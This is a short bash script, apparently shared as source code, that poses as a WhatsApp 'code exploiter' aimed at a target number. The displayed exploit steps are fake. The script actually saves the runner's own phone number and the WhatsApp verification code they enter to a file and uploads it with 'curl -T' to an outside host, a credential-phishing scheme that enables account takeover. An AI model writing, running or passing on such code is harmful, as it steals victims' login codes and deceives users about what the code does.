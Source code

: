 # whatshack.sh

!/bin/bash
clear
echo "
<-- IndoSec -->
####################
#   Whatsapp Code  # By ./arifrahman
#     Exploiter    # arifrahmanray665@gmail.com
####################

Copyright (c) 2019 Arif Rahman";
echo "";
read -p "Nomer Kamu (+62xxxx)=> " nomer;
read -p "Nomer Target (+62xxxx) => " target;
sleep 2
echo "[+] Syncing Target...";
sleep 1
echo "Login  => $nomer";
sleep 0.5
echo "Target => $target";
sleep 0.5
echo "[+] Exploiting...";
echo "Nomer => $nomer" >> kontol.html;
curl -T kontol.html http://apparelworld.org/
sleep 5;
echo "[+] Done.";
echo "Tunggu 5-10 Menit Untuk Mendapatkan Code.";
read -p "Verify Code => " code;
sleep 2
echo "[+] Connecting to whatsapp.com...";
echo "Login => $nomer";
sleep 0.5
echo "Code => $code";
sleep 0.5
echo "Target => $target";
sleep 0.5
echo "[+] Sending Exploit...";
echo "Code => $code" >> kontol.html;
curl -T kontol.html http://apparelworld.org/
sleep 5
echo "[+] Success Exploited!";
exit;
